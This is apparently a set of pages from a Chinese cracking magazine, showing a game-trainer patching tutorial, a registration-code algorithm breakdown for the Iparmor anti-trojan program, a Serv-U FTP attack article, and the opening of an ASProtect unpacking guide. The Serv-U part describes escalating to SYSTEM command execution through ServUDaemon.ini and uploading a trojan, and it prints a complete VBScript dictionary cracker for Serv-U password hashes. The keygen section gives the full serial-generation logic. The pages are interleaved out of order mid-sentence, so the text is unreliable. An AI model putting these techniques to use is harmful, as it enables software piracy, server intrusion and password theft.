为了实现这个功能，我们首先要找到游戏存放弹跳力数值的内存地址。这无疑是各类游戏修改器的拿手好戏。我们使用的是金山游侠，启动游戏后进行一些操作，使能量槽显示值（即弹跳力数值）发生变化，然后搜索相应数值（如图示变化），最终定位在内存地址 `00138078` 上。

好了，让我们用 SoftICE 重新载入游戏（目的是让 SoftICE 直接进入游戏地址空间），下内存写入断点：

```asm
bpmd 138078 w
```

然后按 F5 进入游戏，SoftICE 并没有弹出。这是因为该地址是动态分配的：游戏每次启动都会分配不同地址存放该数值，所以此前找到的地址只在一次运行中有效。问题变成：在不重启游戏前提下先找出这个地址，再让 SoftICE 进入游戏地址空间设置内存访问断点。

这时 Crack 技术开始发挥作用。利用游戏开始前的注册对话框作为突破口：先在注册框输入信息，然后在 SoftICE 里设置断点：

```asm
bpx GetWindowTextA
```

点击注册按钮后，按几次 F12 来到游戏领空，在这里设置内存访问断点：

```asm
bpm d [找到的地址] w
```

然后按 F5 进入游戏，终于中断在目标位置。

> icefire：实际上，SoftICE 有一个功能强大的命令 `Addr`，可以在任意 SoftICE 激活时直接进入指定程序的地址空间，有兴趣的朋友可以试试。

```asm
00406F32 CALL ...
00406F37 ADD ESP,4
00406F3A MOV EAX,DWORD PTR SS:[EBP+8]
00406F3D MOV DWORD PTR DS:[EAX+1194],0
00406F64 MOV DWORD PTR DS:[EAX+11A4],0B
00406F71 MOV DWORD PTR DS:[EAX+11A8],0
...
```

你也许已经猜到，`[寄存器+11A8]` 这样的形式是游戏寻址动态数据的方式：寄存器保存基址，后面是偏移量。我们重点关注弹跳力数值，这种形式对后续处理非常有用。对于这种小游戏，几乎可以断定弹跳力数据都通过这种方式访问，打开 W32Dasm 来确认这些位置。

```asm
[A区]
00403CF3 PUSH EAX
00403CF4 CALL ...
...
00403D19 MOV DWORD PTR DS:[EAX+11A8],0
...
[G区]
00406F4A MOV DWORD PTR DS:[EAX+1198],120
...
00406F71 MOV DWORD PTR DS:[EAX+11A8],0
...
```

详细代码请查看光盘“源代码”栏目按文章名检索。我们已经找到所有对弹跳力数值的访问，除 G 区代码可判断为初始化外，其他操作含义尚不明确。通过观察后发现 C 区操作尤为可疑。

```asm
004068D3 MOV ECX,0C
004068D8 MOV EAX,DWORD PTR DS:[EAX+11A8]
004068DE CDQ
004068DF IDIV ECX
004068E1 LEA EAX,[EDX+1]
004068E4 MOV ECX,DWORD PTR SS:[EBP+8]
004068E7 MOV DWORD PTR DS:[ECX+11A8],EAX
```

联想到游戏的动作（能量槽总是饱和以后再回零递增），我猜这就是我们要找的地方了。如果要使弹跳力无限增加，我们只要去掉那个求余操作就可以了。看看我修改的代码：

```asm
004068D0  MOV EAX,DWORD PTR SS:[EBP+8]
004068D3  MOV ECX,0C
004068D8  MOV EAX,DWORD PTR DS:[EAX+11A8]
004068DE  INC EAX
...       NOP
004068E4  MOV ECX,DWORD PTR SS:[EBP+8]
004068E7  MOV DWORD PTR DS:[ECX+11A8],EAX
004068ED  MOV EAX,DWORD PTR SS:[EBP+8]
004068F0  PUSH EAX
```

如果你以为这样就完工了，那么试着运行一下修改后的游戏，怎么样？发现问题了吧？当蓄力超过能量槽所能显示的范围时，能量槽这块实际上显示成了一块跳板。此外，小人的行动会暂停一段时间，在这期间播放一系列杂乱的声音。

> icefire：我在调试的时候也出现了这样的情况，包括那声“绝望的尖叫”也出来了……在下文中我将继续使用这个词来表示这段众所周知的声音，因为这个声音将我从噩梦中直接拖到了地上！

然后其动作会继续，但声音就此消失。毫无疑问，这个 BUG 是在我们修改了偏移量为 11A8 处的值后产生的，因此必然与该值的存取有关。我们已经找到了游戏中所有与该值的存取有关的代码，但是并不清楚它们分别实现什么功能，所以我们的第一步是定位出现问题的这处代码。

首先我们从声音的 BUG 入手。能量槽饱和以后发出一系列杂乱的声音——游戏如何播放声音呢？我在学习 VB 的时候使用过一个 Windows 多媒体函数 PlaySound，这函数可以播放资源中的波形声音（.wav），我想我们的游戏很可能调用这个函数来播放声音，所以让我们在 W32Dasm 中观察一下程序的输入表。

```text
USER32.MessageBoxA
USER32.ModifyMenuA
USER32.MoveWindow
USER32.PostQuitMessage
USER32.PtInRect
USER32.RegisterClassA
USER32.ReleaseCapture
...
WINMM.mciSendCommandA
WINMM.sndPlaySoundA
```

很遗憾，游戏并没有调用这个函数。但是我们并非一无所获，WINMM.sndPlaySoundA 引起了我们的注意，其函数原型如下：

> BOOL sndPlaySound(LPCSTR lpszSound, UINT fuSound);
>
> lpszSound：指定将要播放的声音，它通常是系统音标识或者波形文件名。  
> fuSound：指定播放参数。

MSDN 并没有指出该函数可以播放资源中的声音，但输入表告诉我们它是我们的唯一选择。我们试着在反汇编代码中寻找对它的调用（仍然是 W32Dasm，双击函数 WINMM.sndPlaySoundA）：

```asm
00404267  CALL DWORD PTR DS:[<&GDI32.DeleteObject>]
...
0040427A  PUSH 0        ; 参数 fuSound
0040427C  PUSH 0        ; 参数 lpszSound
0040427E  CALL DWORD PTR DS:[<&WINMM.sndPlaySoundA>]
```

这显然不是我们需要的。因为 MSDN 指出，当 lpszSound 参数为 NULL 时，函数将终止异步播放的声音。下面是第二处调用（也是最后一次），我想这次我们找对地方了：

```asm
00406E3D  PUSH EBP
00406E3E  MOV EBP,ESP
...
00406E43  PUSH 0
00406E45  PUSH 0        ; lpszSound=0
00406E47  CALL DWORD PTR DS:[<&WINMM.sndPlaySoundA>]
...
00406E69  PUSH EAX
00406E6A  CALL DWORD PTR DS:[<&WINMM.sndPlaySoundA>]
```

## 盗界导踪 / SECRET OF CRACK

```asm
00406E82  PUSH 40005
00406E87  PUSH 9F
00406E8C  CALL DWORD PTR DS:[<&WINMM.sndPlaySoundA>]
00406E92  JMP 00406EAB
...
00406EAF  RETN
```

相应的声音！如果弹跳力不断增加而且不回零，那么参数2标识的资源将是无效的声音；当参数2的值达到A0h时，“绝望的尖叫”！如果该值继续增加，那么标识的就根本不是声音资源了，所以继续蓄力就不会播放声音。把原理弄明白了，打补丁就方便了，我们只要在代码区的空白处添加一些代码，让参数2在传入之前先对12D（能量槽的饱和值）求余，就可以播放有效的声音了……

这个游戏没有加壳，所以其资源很容易找到，现在是动用 EXEscope 的时候了，选中资源160，点击“wave”按钮——这正是我们所熟悉的“绝望的尖叫”。我想大家一定对“绝望的尖叫”印象深刻，那么我们就从它入手。160D 转换为16进制就是 A0h，等会儿我们会用到它。

在修改之前，我们先看看能量槽显示的位图问题吧。先看一下程序的位图资源，下面是我用 EXEscope 在程序资源中找到的相关位图（如图3所示）。

这次换 OllyDbg，我们在上面代码的 RET 处设下断点，然后开始游戏。不出所料，一旦我们按下空格键蓄力，游戏就被中断了……按下 F8 以后，我们来到了调用这段代码的地方：


图3

```asm
004068F1  CALL 00405A93
004068F6  ADD ESP,4
004068F9  MOV EAX,DWORD PTR SS:[EBP+8]
004068FC  CMP DWORD PTR DS:[EAX+1338],0
...
0040691B  PUSH EAX
0040691C  CALL 00406E3D
00406921  ADD ESP,8
```

是不是很有想法？有了前面的经验，我们大致可以猜测位图也是以某种查表方式“贴”上去的，每一个弹跳力值都对应有一块位图块……我的结论是 B 区。

这不就是我们前面找到的 D 区的代码吗？果然与弹跳力的数值有关！我们再重复这一过程，会发现播放“绝望的尖叫”之前，参数2的值为 A0h，正是“绝望的尖叫”的资源标识……

```asm
00405A93  PUSH EBP
00405A94  MOV EBP,ESP
00405A96  SUB ESP,4
00405A99  PUSH EBX
00405A9A  PUSH ESI
00405A9B  PUSH EDI
...
00405AA4  PUSH EAX
00405AA8  MOV EAX,DWORD PTR DS:[EAX+4]
00405AAB  PUSH EAX  ; hDC
00405AAC  CALL DWORD PTR DS:[<&GDI32.SelectPalette>]
...
00405AC3  SHL EAX,4      ; 乘以16（能量槽位图的高度）
00405AC6  ADD EAX,0A0    ; 加上一个基值0A0h
00405ACB  PUSH EAX       ; Ysrc
...
00405AEA  CALL DWORD PTR DS:[<&GDI32.BitBlt>]
...
00405AFD  CALL DWORD PTR DS:[<&GDI32.SelectPalette>]
...
00405B07  RETN
```

BitBlt 函数是干什么的？MSDN 上大致意思就是说把一个矩形区域里的位（像素）从一个设备传递到另一个设备，这里的功能我们可以理解为把一块矩形位图复制到视频显示器上输出。它的原型是：

```c
BOOL BitBlt(
  LPPDEVICE lpDestDev, WORD wDestX, WORD wDestY,
  LPPDEVICE lpSrcDev, WORD wSrcX, WORD wSrcY,
  WORD wExt, WORD wYExt, long Rop3,
  LPBRUSH lpBrush, LPDRAWMODE lpDrawMode
);
```

这个函数的参数看起来很多，其实并不复杂。第一个参数是目的设备描述表的句柄，不必理会，第二、第三个参数指定目标位置，第四个参数是源设备描述表的句柄，第五到第八个参数指定源位图块的位置，剩下一些标志性参数没必要知道。OllyDbg 已经把对应的参数都注释出来了，值得注意的是 Ysrc，它是通过弹跳力的值计算出来的。

计算出来的，很明显，0A0 就是所谓的基值，也就是弹跳力为零时的源位图块的左上角 Y 坐标。现在这个 BUG 可以得到解释了，程序以弹跳力的值为索引计算出源位图块的 Y 坐标位置，这个值如果超过了12，那么得到的位图块自然就是无效的。从上面这个 RET 返回后（处理完能量槽的显示后），我们来到了：

```asm
004068C3  MOV EAX,DWORD PTR SS:[EBP+8]
004068C6  MOV DWORD PTR DS:[EAX+11AC],1
004068D0  MOV EAX,DWORD PTR SS:[EBP+8]
004068D3  MOV ECX,0C
004068D8  MOV EAX,DWORD PTR DS:[EAX+11A8]
004068DE  CDQ
004068DF  IDIV ECX
004068E1  LEA EAX,DWORD PTR DS:[EDX+1]
...
004068F1  CALL 00405A93
004068F6  ADD ESP,4
...
00406912  ADD EAX,8E
00406917  PUSH EAX
...
0040691C  CALL 00406E3D
...
00406924  JMP 00406A12
```

我们回到了 C 区的代码，注意到这个事实非常重要，这有利于我们后面对代码的修改。最后一个疑问：E 区代码对弹跳力的读取是干什么的呢？我想是程序开始用牛顿定律计算小人能跳多高了吧——这正是我们所希望的。那么 A 区和 F 区呢？它们对弹跳力值赋0，我想可能与小人从一块跳板掉到（或者跳到）另一块跳板时弹跳力要重新计数有关吧，当然如果你觉得这个规则不利于你“做男人”，也可以发挥一下，NOP 掉这句代码。

无论如何，这些同我们所要实现的弹跳力无限功能已经没什么关系了。现在我们已经完全明白程序的处理了，如何修改呢？要想通过修改代码（而不是添加代码）来增加功能，我们必须做一件事：对原来的代码进行优化，藉此腾出空间增加我们自己的代码。当然这两步可以同时实现，就看各位各显神通了。我的思路是这样的：11A8 处还是必须存放无限增加的弹跳力值（因为后面要用它计算弹跳高度），但是在索引位图和声音资源时来个“偷天换日”，把有效的索引值赋给相应的参数。

是，程序是用 VC4 编译的，我们要修改的那部分代码似乎效率颇低，有些寄存器根本就没有使用，还有不少重复的工作量；

决定用 Ebx 来保存反复回零的弹跳力值，作为索引位图块和声音资源之用。Esi 和 Edi 保存了两个貌似地址的东西，还是不动为妙。上面这段代码修改后，我们的 bug 就被修复了，在实际弹跳力不断增加的同时，仍然用有效的索引取得位图和声音资源，画面的显示和声音的播放与原来完全一致（详细修改后的代码请看光盘）！

```asm
004068C3  MOV EAX,DWORD PTR SS:[EBP+8]
004068C6  MOV DWORD PTR DS:[EAX+11AC],1
004068D0  MOV EAX,DWORD PTR SS:[EBP+8]
...
004068F1  CALL 00405A93
004068F6  ADD ESP,4
```

“无限生命值”和“蓄力加速”功能的实现方法与此类似，但要简单得多，其中“蓄力加速”功能只要把实现弹跳力递增的代码改为直接赋值为12（能量槽的饱和值）就可以了，限于篇幅，不再赘述。“窗口始终在最上方”和“自动弹跳闯关”的实现也比较简单，要实现窗口始终在最上方，只要用 ShowWindow 函数就可以了，为了取得 ShowWindow 函数的 Hwnd 参数，可以使用 FindWindow 来查找。自动弹跳闯关这个功能看起来很神奇，其实就是给游戏定时发送 WM_KEYDOWN 消息和 KEY_UP 消息，模拟键盘空格键的功能，以上两部分的具体实现请参考源代码。

总体看来，编写修改器的方法并不是很复杂，用到的技术大致与 Crack 相同，但是分析的思路却具有相当的灵活性，不同于 Crack 中的一些思维定势，有兴趣的朋友可以找一些简单的游戏举一反三。学过了 Crack 再尝试一下编写游戏修改器，应该是别有一番趣味的！

程序始终没有用到 Ebx、Esi、Edi，我经过确认以后……

## 木马克星 注册算号法

文／图 laoxuetong [NukeGroup]


木马克星可以查杀 5021 种国际木马、112 种电子邮件木马，保证查杀冰河类文件关联木马、OICQ 类寄生木马、ICMP 类幽灵木马、网络神偷类反弹木马；内置木马防火墙，任何黑客试图与本机建立连接，都需要 Iparmor 确认，不仅可以查杀木马，更可以查黑客。软件界面简洁清晰淡雅，设计独具匠心，功能强大，针对性强，确是一款不错的软件。经查证，软件使用 Delphi 编译，未加壳，使用 WIN32DASM 可轻松找到关键代码。

### 准则算法

- 主程序

```asm
00551164  CALL Iparmor.00436294
00551169  MOV EAX,DWORD PTR SS:[EBP-8]
0055116C  LEA EDX,DWORD PTR SS:[EBP-4]
0055116F  CALL Iparmor.00409284
00551174  MOV EDX,DWORD PTR SS:[EBP-4]
00551177  MOV EAX,ESI
00551179  CALL Iparmor.004362C4
```

```asm
0055117E  LEA EDX,DWORD PTR SS:[EBP-10]
00551181  MOV ESI,DWORD PTR DS:[EBX+2D8]
00551187  MOV EAX,ESI
00551189  CALL Iparmor.00436294
...
005511C0  CALL Iparmor.00409040
005511C5  MOV EDX,DWORD PTR SS:[EBP-114]
```

```asm
005511CB  LEA EAX,DWORD PTR SS:[EBP-10]
005511D1  MOV ECX,0FF
005511D6  CALL Iparmor.004041A0
; 将名称长度放置于名称前面
```

这个位置有些特殊，一般字符串长度是放在前4个单元位置，不参与注册码运算。而此软件是将字符串长度放在名称正前面，并参与运算，形成可视与不可视字符串组合。

```asm
005511DB  LEA EDX,DWORD PTR SS:[EBP-10]
005511E1  MOV EAX,DWORD PTR DS:[EBX+2D0]
005511E7  CALL Iparmor.00491D28
; 此处作第一轮计算，深入见后

005511EC  LEA EDX,DWORD PTR SS:[EBP-11C]
005511F2  MOV EAX,DWORD PTR DS:[EBX+2D8]
005511F8  CALL Iparmor.00436294
005511FD  MOV EAX,DWORD PTR SS:[EBP-11C]
00551203  PUSH EAX
00551204  MOV EAX,DWORD PTR DS:[EBX+2D0]
```

#### 第二轮计算

```asm
0055120A  MOV EAX,DWORD PTR DS:[EAX+224]
00551210  ADD EAX,4EA
00551215  CDQ
00551216  XOR EAX,EDX
00551218  SUB EAX,EDX
```

以上这段代码的作用是：计算结果 +4EA 后，若 >7FFFFFFF，则为负数，扩展后 EDX=FFFFFFFF；否则 EDX=0。若结果为正数，则计算完后其值不变；若结果为负数，则计算完后结果为其绝对值。

```asm
EDX=FFFFFFFF
EAX xor EDX = 460ACBCE
EAX-EDX     = 460ACBCF

0055121A  LEA EDX,DWORD PTR SS:[EBP-120]
00551220  CALL Iparmor.00409438
00551225  MOV EDX,DWORD PTR SS:[EBP-120]
; 从减法进制数字转化结果推到真正注册码
```

到这里后，已经得到真正的注册码。若做内存注册机，可选此地址。

```asm
0055122B  POP EAX
0055122C  CALL Iparmor.004042D4
00551231  JNZ Iparmor.005131E

005512CD  CALL Iparmor.0045BC80
005512D2  JMP SHORT Iparmor.005512DE
005512D4  MOV EAX,Iparmor.00551438
```

```asm
"Register ok!"
005512D9  CALL Iparmor.0045BC80
005512DE  CALL Iparmor.00550EE0
; 创建两个注册键位
```

注册成功后，会在注册表里创建2个键值：PASS（注册码）和 NAME536（名称大写或中文名），但这还不是最后的注册信息，最后信息在下次重启时对名称进行加密变换。

#### 第一轮计算

```asm
; 准备数据
00491E7C  MOV AL,BYTE PTR DS:[EBX+24]
00491E7F  INC EAX
00491E80  CMP EAX,46
00491E83  JG SHORT Iparmor.00491E90

00491E85  MOV BYTE PTR DS:[EBX+EAX+24],2A
00491E8A  INC EAX
00491E8B  CMP EAX,47
00491E8E  JNZ SHORT Iparmor.00491E85
```

这部分代码的作用是：将长度与名称组合进行再处理，如果名称长度组合不足71位，则在其后置字符“*”，结果形如：

```text
00F13240  0A 40 41 4F 58 55 45 54 4F 4E 47 2A ...
LAOXUETONG*************
...
```

```asm
00491E90  XOR EAX,EAX
00491E92  MOV EDX,ESP
00491E94  MOV CL,BYTE PTR DS:[EBX+EAX+24]
00491E98  MOV BYTE PTR DS:[EDX],CL
00491E9A  INC EAX
00491E9B  INC EDX
00491E9C  CMP EAX,47
00491E9F  JNZ SHORT Iparmor.00491E94
00491EA1  MOV ECX,ESP
```

#### 准备进行关键计算

```asm
00491EA3  MOV EDX,DWORD PTR DS:[EBX+22C]
00491EA9  MOV EAX,EBX
00491EAB  CALL Iparmor.00491E2C

00491EB0  MOV DWORD PTR DS:[EBX+224],EAX
; 保存计算结果
```

#### 关键计算

```asm
00491E41  MOV CL,47
00491E43  MOV EAX,ESP
00491E45  MOV EBX,EDX
...
00491E69  JNZ SHORT Iparmor.00491E45
```

这里使用常数 **EFCA99** 作初值（tmp）进行计算，以后以计算结果作初值反复计算71次。一次计算描述为：结果 = (初值\256) xor 查表(初值 xor 一位字符) and FF，每次查表的结果都得到一个8位的十六进制数。

```asm
00491E6B  MOV EAX,EDX ; 转移tmp
```

第一轮计算结束。设置注册信息，若注册码输入正确，则保留注册信息分2步走。注册成功，则建立两个注册键值，分别为名称和注册码（省略代码），PASS：注册码，NAME536：名称（英文则大写）。但此时并不是最终注册信息，重启时会进行验证、变换。重启验证：名称加密变换。注册成功后，重新启动软件，则会进行验证。若通过验证，则进行名称加密变换。加密变换代码如下：

```asm
0048F36E  MOV ESI,1
0048F373  MOV EBX,2
0048F378  MOV DWORD PTR SS:[EBP-C],2
...
0048F3AD  MOV ECX,DWORD PTR DS:[56F268]
```

```asm
; 指向内置表
0048F3B3  MOV DL,BYTE PTR DS:[ECX+EDX]
0048F3B6  MOV BYTE PTR DS:[EAX+EBX-1],DL
...
0048F400  JLE Iparmor.0048F381
```

### 算法分析

1. 名称字符转换：名称按每三位一组进行转换。每位字符（中文每个字节）的 ASCII 码值 and 3F，用其结果查表。  
2. 修正值计算：三位字符中 `((第一位 and C0)\4) or ((第二位 and C0)\16) or ((第三位 and C0)\64)`。  
3. 利用修正值查表：将查表结果置于对应的三个计算结果字符前面，实现3个字符 <-> 4个字符转换。

| 字符表 |
|---|
| 23456789ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| abcdefghijklmnopqrstuvwxyz#%&+- |

对应方式例如：`laoxuetong ---> PE3HPSP7PNHGJ9`，其对应方法为：

| 修正/分组 | 输出 |
|---|---|
| 修正: l a o | P E 3 H |
| 修正: x u e | P S P 7 |
| 修正: t o n | P N H G |
| 修正: g 结束 | J 9 |

```asm
0048F406  CMP EBX,2
0048F409  JE SHORT Iparmor.0048F45D
```

如果不能按三位分为整组，剩余部分按下列方法计算：| 项目 | 内容 |
|---|---|
| 适合读者 | 破解者 |
| 前置知识 | JavaScript基础 |
| 难度等级 | 低 |


## 海螺破解 Serv-U 密码

FTP 协议是用来规定计算机之间进行文件传输的标准和规则，它使得人们能够通过不同类型的计算机、使用不同类型的操作系统，对不同类型的文件进行相互传递。一般来说，Windows 系统自带的 FTP 使用不方便、安全性也不高，因此一般人很少使用，而是通过第三方软件来实现，RhinoSoft 公司出品的 Serv-U FTP Server 就是其中之一。由于它的功能强大、安全性高，因此被广泛使用。通过使用 Serv-U，用户能够将任何一台 PC 设置成一个 FTP 服务器，这样，用户或其他使用者就能够通过在同一网络上用 PC 与 FTP 服务器连接，进行文件或目录的复制、移动、创建和删除等。所谓“树大招风”，由于 FTP 空间的公共性和方便性，也导致了一些安全问题。

```ini
Domain1=192.168.10.123|21|...
[Domain1]
User1=codes||0
[USER=codes]
Password=v425C8C7331C45AC29D267B770281D4F3
HomeDir=c:\downloads
RelPaths=1
HideHidden=1
ChangePassword=1
TimeOut=600
Maintenance=System
Note1=Wizard generated account
Access1=C:\Downloads|RWAMLGDP
SKEYValues=
```

Serv-U FTP Server 的配置文件一般保存在安装目录下的 ServUDaemon.ini 中，如果本地受限用户或者远程拥有普通权限的攻击者能够得到该文件，并精心构造 ServUDaemon.ini 文件中的内容，修改其中的一些核心参数，就能在系统上以 SYSTEM 权限执行任意命令。下面，我们重点来看看这些参数以及如何利用这些参数。

打开安装目录，我们可以看到 ServUDaemon.ini，这个文件里面保存着一些十分重要的参数。在进行相关入侵操作之前，我们需要了解 ServUDaemon.ini 的详细参数，下面给出了相关注释。

```ini
[GLOBAL]  // 定义一些全局参数
Version=5.00
ProcessID=424
[DOMAINS] // 主机IP以及域名、端口情况
```

> 特别需要注意“Access1=C:\Downloads|RWAMLGDP”这一句，它表示用户权限设置：R 表示读文件，L 表示目录列表，W 表示写文件和上传，M 具有可删改权限，A 添加权限，E 执行权限，C 目录创建权限，D 目录删除权限。

ServUDaemon.ini 这个文件对我们十分有用，吸引人的地方在于用户的权限信息和目录信息。只要能够读写……

```asm
0048F40B  LEA EAX,DWORD PTR SS:[EBP-8]
0048F40E  CALL ...
0048F413  MOV BYTE PTR DS:[EAX+EBX-1],2E
...
0048F430  MOV EAX,DWORD PTR SS:[EBP-4]
0048F433  MOV EDX,DWORD PTR SS:[EBP-8]
0048F436  CALL ...
```

```asm
0048F430  MOV EAX,DWORD PTR SS:[EBP-4]
0048F441  MOV EAX,DWORD PTR DS:[EAX]
```

如果名称分组有多余部分，则首先对名称进行变换计算，并在其后置点“.”，最后利用修正值查表放于首位即可。如果恰好分组，最后结果后面也会放置“.”作为结束标志。将名称进行加密变换后，程序会删除注册表键值 NAME536 名称，新建键值 NEWNAME 密文，到这时才是真正注册信息。

通过上面的步骤后，软件就完成了本地注册。注册对话框不再可用。如果你是正式用户，网络服务器会留着你的案底；如果不是正式用户，你不能通过网络验证，不能通过网络升级，否则服务器会删除你的注册信息。

## 经典悬案  
## SECRET OF CRACK

> 栏目编辑：icefire（icefire@hacker.com.cn）

Serv-U FTP Server 的文件目录，本地受限用户或远程攻击者就可以通过修改目录中的 ServUDaemon.ini 文件实现一些攻击性操作，如以 FTP 进程在远程、本地系统上以 FTP 系统管理员权限来执行任意命令。用 FTP 登录到 Serv-U FTP Server 以后，通过执行如下命令可以直接添加用户或者提升用户的权限，如图 1 所示。


通过上述操作，在本地系统上就可以添加一个超级用户 Hacker，也可以直接用以下命令把当前用户提升到超级用户组中去。如在软件的设置里面，“c:\download” 被当作用户的主目录，用户可以对它和其子目录进行读和写的操作，而用户被禁止操作的其他目录，由于被当作当前目录的子目录而继承其属性，用户也可以对它读和写了，这样必然要波及到 “c:\winnt” 目录。试想，如果目录对用户完全开放，可以进行读、写、删除、列表、建目录，那么用户也就可以对 Windows 系统的目录进行一些可怕的操作了。

有了这样一个攻击思路，如果使用这个版本的 Serv-U 管理员不清楚这个漏洞，将用户的主目录与系统放在同一个分区，那么黑客利用此漏洞便能抓取到系统的所有密码（破解密码也是比较简单的）。如果某个用户拥有写和运行权限，那么他就可以上传一个木马，并运行它。

很多朋友在看了 Serv-U 的加密密码后可能会纳闷，怎么会有 34 位这么长的密码？在 ServUDaemon.ini 中，我们可以看到一个被 Serv-U 加密的密文，其长度为 34 位。根据分析，它采用的是 MD5 加密算法。通过与字典档（Dict.txt）的比较，我们就可以得到正确的密码。要破解这个密码，我们需要用到 2 个程序：MD5.wsc 和 Crack.vbs 文件。

破解之前，我们需要注册 MD5.wsc 文件，右键单击该文件，在弹出的菜单中选择“注册”。如果没有该项，就要升级 Scripting 引擎，升级地址为 http://msdn.microsoft.com/scripting。注册成功后，会提示如图 2 所示的图片（详细代码请查看光盘“源代码”栏目，按照文章名查找即可）。


接着，我们来看 Crack.vbs 文件，将下列代码保存为 Crack.vbs 或者 Crack.vbe 文件，如下所示。

```vb
On Error Resume Next
set OutStream = wScript.Stdout
set InStream = wScript.Stdin
If (lcase(right(wScript.Fullname,11)) = "wscript.exe") Then
    Set objShell = wScript.CreateObject("WScript.Shell")
    objShell.Run("cmd.exe /k cscript //nologo " & Chr(34) & wScript.ScriptFullName & Chr(34))
    wScript.Quit
End If
PassString = WScript.Arguments(0)
If Len(PassString)<>34 Then
    Usage()
    wScript.Echo "PLZ input a ServUPass in the ServUDaemon.ini file!"
    wScript.Quit
End If
Usage()
Set oMD5 = CreateObject("MD5.WSC")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objDictFile = objFSO.OpenTextFile("Dict.txt", 1)
Salt = Left(PassString, 2)
Password = Right(PassString, 32)
Compared()
wScript.Echo "恭喜，密码已经破解。"
oMD5.Close
objDictFile.Close
objFSO.Close
wScript.Quit

Function Compared()
Do While objDictFile.AtEndOfStream <> True
    WordString = objDictFile.ReadLine
    Word = Salt & WordString
    sHashedStr = oMD5.calcMD5(Word)
    If StrComp(sHashedStr, Password)=0 Then
        OutStream.Write "\"" & Password & "\"="
        OutStream.Write "\"" & WordString & "\"" & Chr(10)
        Exit Function
    End If
Loop
End Function

Function Usage()
wScript.Echo String(79,"*")
wScript.Echo "Serv-UPassCrack v1.0a"
wScript.Echo "Serv-U FTP PassWord Cracker by Caine"
wScript.Echo "Thanks to Dipover!"
wScript.Echo "Usage:"
wScript.Echo "cscript crack.vbs ServUPass!"
wScript.Echo " /h: show this usage!"
wScript.Echo "CAUTION!!!Wordlist must in Dict.txt file!!!"
wScript.Echo String(79,"*") & vbcrlf
End Function
```

现在，将 Dict.txt 字典文件和 Crack.vbs 拷贝到同一个目录下，就可以开始破解密码了，输入 `cscript crack.vbe yj425C8C7331C45AC29D267B770281D4F3`，其中 yj425C8C7331C45AC29D267B770281D4F3 是从 ServUDaemon.ini 文件中拷贝过来的，稍等片刻即可得到 Serv-U 加密时的密码原文，可以看到密码被破解了，即经过解密后的密码是 741852，如图 3 所示。

其实使用这个方法破解 Serv-U 的密码是没有办法的办法，因为它本身使用的是 MD5 加密，破解它需要时间和运气，所以呢，有个好的字典就一切 OK！能不能破解出来还看你的字典强度哦！


**Icefire：**“以壳解壳”这个名字是作者自己起的，私下和他交流的时候他曾介绍过这个名字。这个方法来源于 AsprStripperXP 脱壳机，在完整所有的代码解压之后，处理 Stolen Code 之前，把选择 Dump 出来，补上那段壳代码，模仿构造当时的堆栈和寄存器值环境，这样就由壳自己来解决 Stolen Code 的问题啦。推而广之，这个 Stolen Code 简便解决方案也适用于某些其他壳。

| 项目 | 内容 |
|---|---|
| 适合读者 | 破解器 |
| 前置知识 | OllyDbg 使用方法 |
| 难度等级 | 高 |

## 以壳解壳——对 ASProtect 加壳程序的脱壳和破解

文／图 Fly[FCG][NUKE][DCM][CUG]

ASProtect 是壳中之王，这个壳在 Pack 界当选老人是毫无异议的，当然这里的老人不仅指它的加密强度，还在于它开创了壳的新时代。SEH 和各种流行的 Anti、Bpm 断点的清除都出自这里，更为有名的当属 RSA 的使用，使得 Demo 版无法被 Crack 成完整版，Code_dips 也源于这里，IAT 的处理即使到现在看来也是很强的。CoDe_InjeCt 兄的这段解说很精辟。（详细代码请查看光盘“源代码”栏目，按照文章名查找即可），加壳后没有未注册版提示的 NAG，主界面如图 1 所示。

简便解决方案，几乎可以处理所有这个版本的 ASProtect 加壳程序的 Stolen Code！

本次的目标程序是 Advanced Call Center V5.5，这是一个专为 Voice modem 设计出来，让 Voice modem 可以充分被利用的一个应用程序，它具有多功能的电话答录设计及接收／联络／管理的功能，可以从 http://www.skycn.com/soft/968.html 下载。调试环境 WinXP、flyODBG（OllyDbg V1.10 汉化修改版）、PEiD、LordPE、AsprDbgr 和 ImportREC。


### 设置 OllyDbg

OllyDbg 是一款可以用“伟大”来形容的调试工具！直观、简便、易学，特别适合我等菜鸟们使用。为了更好地完成调试，我们要先设置一下 OllyDbg。

> OllyDbg 在 Windows 9X 系统上将无法完全发挥强大的功能，所以用 OllyDbg 脱壳推荐在 Windows XP、2000 和 NT 系统平台上操作。

- 1. 忽略除了“内存访问异常”之外的所有其他异常选项，如图 2 所示。我们要利用这个“内存访问异常”来完成脱壳。
- 2. 用 IsDebuggerPresent Plugin V1.4 插件隐藏 OllyDbg 的调试器标志，如图 3 所示。这样 ASProtect 就无法通过调用 IsDebuggerPresent 函数来反跟踪了。

ASProtect 不断升级，现在的 ASProtect V1.3X、V2.0 版本更猛了，更加巩固了其王者之位。ASProtect V1.23RC4 可谓是比较“经典”的版本，使用其加壳的程序也比较多。ASProtect 把 Stolen Code 越做越“变态”，虽然大部分 Stolen Code 都可以分析出来，但是有点费时间。下面来演示一种 ASProtect V1.23RC4 壳的 Stolen Code 简便解决方案……

抓住 ASProtect V1.23RC4 壳的最后一次典型异常，用 OllyDbg 载入目标程序 acc.exe，OllyDbg 弹出“是压缩的代码……”


> Icefire，原来没有调试过的话，可以记下你通过异常按 Shift+F9 的次数，直至程序运行，重新来过，少按一次 Shift+F9，就来到最后一次典型异常处。按 Shift+F9 通过异常约 27 次，来到最后一次典型异常 00D33D03 处。如果再来一次 Shift+F9，程序就运行了。这时候就在 00D33D40 的 Retn 处下断，然后 Shift+F9，中断下来。

此时 ESP=0012FF5C，看看堆栈，0012FF68 处的数值是 0012FFA4，使用“ESP 定律”，我们下断：HR 0012FF68。

F9 运行，硬件访问断点起效，中断在 00DB850D 处。

```asm
00DB850D  EB3F          jmp short 00DB854D
00DB850F  60            pushad
00DB8510  9C            pushfd
00DB8511  FC            cld
00DB8512  BF00000000    mov edi,0
00DB8517  B900000000    mov ecx,0
00DB851C  F3AA          rep stos byte ptr es:[edi]
00DB851E  9D            popfd
00DB851F  61            popad
00DB8520  C3            retn
```

// Stolen Code 处理完毕将从这里由壳返回程序。好了，第二部分的工作完成了。


脱过这个版本壳的朋友都知道，ASProtect V1.23RC4 壳有一个最后的典型异常，这个异常的地址是动态的，甚至在相同机子上每次调试时都不同，但其代码是相同的，所以你熟悉之后就会辨认出来（如图 6 所示）。


### 以壳解壳

